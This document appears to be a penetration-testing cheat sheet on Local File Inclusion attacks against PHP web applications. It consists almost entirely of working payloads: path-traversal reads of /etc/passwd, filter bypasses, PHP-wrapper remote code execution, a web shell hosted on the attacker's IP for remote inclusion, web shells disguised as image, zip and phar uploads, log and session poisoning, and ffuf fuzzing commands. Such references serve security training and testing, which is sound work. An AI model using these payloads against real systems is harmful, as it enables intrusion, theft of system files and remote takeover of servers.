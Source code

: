 # Cheat Sheet

### Local File Inclusion

| **Command**                                                                                        | **Description**                                           |
| -------------------------------------------------------------------------------------------------- | --------------------------------------------------------- |
|  **Basic LFI**                                                                                     |                                                           |
|  `/index.php?language=/etc/passwd`                                                                 | Basic LFI                                                 |
|  `/index.php?language=../../../../etc/passwd`                                                      | LFI with path traversal                                   |
|  `/index.php?language=/../../../etc/passwd`                                                        | LFI with name prefix                                      |
|  `/index.php?language=./languages/../../../../etc/passwd`                                          | LFI with approved path                                    |
|  **LFI Bypasses**                                                                                  |                                                           |
|  `/index.php?language=....//....//....//....//etc/passwd`                                          | Bypass basic path traversal filter                        |
|  `/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64`          | Bypass filters with URL encoding                          |
|  `/index.php?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]` | Bypass appended extension with path truncation (obsolete) |
|  `/index.php?language=../../../../etc/passwd%00`                                                   | Bypass appended extension with null byte (obsolete)       |
|  `/index.php?language=php://filter/read=convert.base64-encode/resource=config`                     | Read PHP with base64 filter                               |

### Remote Code Execution

| **Command**                                                                                                                  | **Description**                       |
| ---------------------------------------------------------------------------------------------------------------------------- | ------------------------------------- |
|  **PHP Wrappers**                                                                                                            |                                       |
|  `/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id`                    | RCE with data wrapper                 |
|  `curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"` | RCE with input wrapper                |
|  `curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"`                                                        | RCE with expect wrapper               |
|  **RFI**                                                                                                                     |                                       |
|  `echo '<?php system($_GET["cmd"]); ?>' > shell.php && python3 -m http.server <LISTENING_PORT>`                              | Host web shell                        |
|  `/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id`                                                     | Include remote PHP web shell          |
|  **LFI + Upload**                                                                                                            |                                       |
|  `echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif`                                                                     | Create malicious image                |
|  `/index.php?language=./profile_images/shell.gif&cmd=id`                                                                     | RCE with malicious uploaded image     |
|  `echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php`                                              | Create malicious zip archive 'as jpg' |
|  `/index.php?language=zip://shell.zip%23shell.php&cmd=id`                                                                    | RCE with malicious uploaded zip       |
|  `php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg`                                                         | Create malicious phar 'as jpg'        |
|  `/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id`                                                  | RCE with malicious uploaded phar      |
|  **Log Poisoning**                                                                                                           |                                       |
|  `/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd`                                                 | Read PHP session parameters           |
|  `/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E`                                               | Poison PHP session with web shell     |
|  `/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id`                                          | RCE through poisoned PHP session      |
|  `curl -s "http://<SERVER_IP>:<PORT>/index.php" -A '<?php system($_GET["cmd"]); ?>'`                                         | Poison server log                     |
|  `/index.php?language=/var/log/apache2/access.log&cmd=id`                                                                    | RCE through poisoned PHP session      |

### Misc

| **Command**                                                                                                                                                                           | **Description**            |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------- |
|  `ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287`                                      | Fuzz page parameters       |
|  `ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287`                                                      | Fuzz LFI payloads          |
|  `ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287` | Fuzz webroot path          |
|  `ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287`                                                                      | Fuzz server configurations |
|  [LFI Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)                                                                                                  |                            |
| [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt)                                                                                 |                            |
| [Webroot path wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt)                                  |                            |
| [Webroot path wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt)                              |                            |
| [Server configurations wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux)                                                     |                            |
| [Server configurations wordlist for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows)                                                 |                            |

### File Inclusion Functions

| **Function**                 | **Read Content** | **Execute** | **Remote URL** |
| ---------------------------- | :--------------: | :---------: | :------------: |
| **PHP**                      |                  |             |                |
| `include()`/`include_once()` |         ✅        |      ✅      |        ✅       |
| `require()`/`require_once()` |         ✅        |      ✅      |        ❌       |
| `file_get_contents()`        |         ✅        |      ❌      |        ✅       |
| `fopen()`/`file()`           |         ✅        |      ❌      |        ❌       |
| **NodeJS**                   |                  |             |                |
| `fs.readFile()`              |         ✅        |      ❌      |        ❌       |
| `fs.sendFile()`              |         ✅        |      ❌      |        ❌       |
| `res.render()`               |         ✅        |      ✅      |        ❌       |
| **Java**                     |                  |             |                |
| `include`                    |         ✅        |      ❌      |        ❌       |
| `import`                     |         ✅        |      ✅      |        ✅       |
| **.NET**                     |                  |             |                |
| `@Html.Partial()`            |         ✅        |      ❌      |        ❌       |
| `@Html.RemotePartial()`      |         ✅        |      ❌      |        ✅       |
| `Response.WriteFile()`       |         ✅        |      ❌      |        ❌       |
| `include`                    |         ✅        |      ✅      |        ✅       |
